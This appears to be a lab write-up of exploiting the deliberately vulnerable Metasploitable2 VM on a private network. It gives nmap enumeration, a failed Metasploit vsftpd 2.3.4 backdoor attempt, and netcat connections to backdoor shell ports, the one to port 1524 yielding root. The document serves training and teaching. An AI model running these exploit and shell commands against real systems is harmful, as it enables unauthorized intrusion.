<div align="center">

# 💥 Metasploitable2 Exploitation  
## Enumeration → Vulnerability Discovery → Root Access


</div>

---

### 🎯 Objective

Enumerate a vulnerable target (Metasploitable2), identify exposed services, and gain root access through exploitation.

---

### 🔍 Step 1 — Network Discovery

Confirmed connectivity:

```bash
ping 192.168.74.129
```

---

### 🔎 Step 2 — Nmap Enumeration

```bash
nmap -sC -sV 192.168.74.129
```

📸 **Scan Start**



📸 **Scan Results**





---

### 🔑 Key Findings

| Port | Service | Notes |
|-----|--------|------|
| 21 | vsftpd 2.3.4 | Backdoor vulnerability |
| 22 | SSH | Open |
| 23 | Telnet | Insecure |
| 80 | Apache | Web server |
| 445 | Samba | Vulnerable |
| 1524 | Bindshell | 🚨 Root access |
| 8180 | Tomcat | Web app |

---

### 🧪 Step 3 — Metasploit Exploration

```bash
msfconsole
```

📸 **Metasploit Startup**



Searched for vsftpd modules:

```bash
search vsftpd
```

📸 **Module Discovery**



---

### ⚠️ Step 4 — Exploit Attempt (vsftpd)

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.74.129
run
```

📸 **Exploit Attempt**





Result: ❌ Failed / unreliable

---

### 🎯 Step 5 — Manual Exploitation (Bindshell)

Attempted connection to port 6200:

```bash
nc 192.168.74.129 6200
```

Result:

```
Connection refused
```

📸 **Failed Attempt**



---

### 🚨 Step 6 — Successful Exploitation (Port 1524)

```bash
nc 192.168.74.129 1524
```

Result:

```
root@metasploitable:/#
```

📸 **Root Shell Access**



---

### 🔍 Step 7 — Verification

```bash
whoami
```

Output:

```
root
```

---

### 🧠 Analysis

- Port 1524 exposed a **preconfigured bindshell**
- No authentication required  
- Immediate root access granted  
- Represents a **critical backdoor vulnerability**

---

### 🔐 Security Insight

This demonstrates:

- Importance of **full port enumeration**
- Risks of **default insecure configurations**
- Why **segmentation and monitoring** are essential

---

### 🛠 Techniques Used

- network scanning (Nmap)  
- service enumeration  
- Metasploit module analysis  
- manual exploitation (Netcat)  

---

### 🚀 Key Takeaways

- Identified multiple vulnerable services  
- Tested automated exploitation (Metasploit)  
- Successfully pivoted to manual exploitation  
- Achieved root access via bindshell  
- Reinforced real-world enumeration workflow  

---

<div align="center">

🔍 Enumeration reveals attack surface  
⚠️ Not all exploits succeed  
💥 Manual exploitation often wins  

</div>
